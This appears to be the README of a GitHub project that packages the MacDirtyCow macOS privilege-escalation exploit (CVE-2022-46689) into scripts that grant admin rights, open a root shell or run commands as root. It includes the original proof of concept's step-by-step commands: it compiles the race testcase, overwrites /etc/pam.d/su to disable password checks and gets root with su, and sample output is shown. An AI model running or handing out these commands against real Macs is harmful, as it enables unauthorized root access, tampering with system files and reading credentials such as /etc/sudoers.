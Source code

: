 # MacDirtyCow Utilities

Scripts to get elevated access using [CVE-2022-46689](https://support.apple.com/en-us/HT213532) (MacDirtyCow).

## Compatability
MacDirtyCow supports the following versions:
- macOS 13.0.1 or under in Ventura
- macOS 12.6.1 or under in Monterey
- macOS 11.7.1 or under

These scripts may get updated to support later versions using [kfd](https://github.com/felix-pb/kfd) ([CVE-2023-23536](https://support.apple.com/en-us/HT213676) and [CVE-2023-32434](https://support.apple.com/en-us/HT213814)), but it is not planned at this time.

## Usage
Download and extract [the zip](https://github.com/DeltAndy123/MacDirtyCow-Utils/archive/refs/heads/main.zip) for this repo or clone this repo, then double click the scripts you want to run.

## Scripts
### [get_admin.command](https://github.com/DeltAndy123/MacDirtyCow-Utils/blob/main/get_admin.command)
This script allows you to set any user as admin.

### [root_shell.command](https://github.com/DeltAndy123/MacDirtyCow-Utils/blob/main/root_shell.command)
This script opens a shell session as root.

### [elevate.command](https://github.com/DeltAndy123/MacDirtyCow-Utils/blob/main/elevate.command)
This script takes parameters and runs them as root.

Examples:
```bash
./elevate.command "cat /etc/sudoers"
./elevate.command "echo \"This command is ran as root\"" "ls /private/var/networkd/Library/Preferences"
```

## Credits
- [MacDirtyCowDemo](https://github.com/zhuowei/MacDirtyCowDemo) to overwrite read-only files without root access

# Original README.md

Get root on macOS 13.0.1 with [CVE-2022-46689](https://support.apple.com/en-us/HT213532) (macOS equivalent of the Dirty Cow bug), using the testcase extracted from [Apple's XNU source](https://github.com/apple-oss-distributions/xnu/blob/xnu-8792.61.2/tests/vm/vm_unaligned_copy_switch_race.c).

https://worthdoingbadly.com/macdirtycow/

## Usage
On a macOS 13.0.1 / 12.6.1 (or below) machine, run:

```
clang -o switcharoo vm_unaligned_copy_switch_race.c
sed -e "s/rootok/permit/g" /etc/pam.d/su > overwrite_file.bin
./switcharoo /etc/pam.d/su overwrite_file.bin
su
```

You should get:

```
% ./switcharoo /etc/pam.d/su overwrite_file.bin
Testing for 10 seconds...
RO mapping was modified
% su
sh-3.2# 
```

Tested on macOS 13 beta (22A5266r) with SIP off (it should still work with SIP on).

If your system is fully patched (macOS 13.1 / 12.6.2), it should instead read:

```
$ ./switcharoo /etc/pam.d/su overwrite_file.bin
Testing for 10 seconds...
vm_read_overwrite: KERN_SUCCESS:9865 KERN_PROTECTION_FAILURE:3840 other:0
Ran 13705 times in 10 seconds with no failure
```

and running `su` should still ask for a password.

Thanks to Sealed System Volume, running this on any file on the /System volume only modifies the file temporarily: It's reverted on reboot. Running it on a file on a writeable volume will preserve the modification after a reboot.

## Credits

- Ian Beer of Project Zero for finding the issue. Looking forward to your writeup!
- Apple for the test case. (I didn't change anything: I just added the command line parameter to control what to overwrite.)
- [SSLab@Gatech](https://gts3.org/assets/papers/2020/jin:pwn2own2020-safari-slides.pdf) for the trick to disable password checking using `/etc/pam.d`.
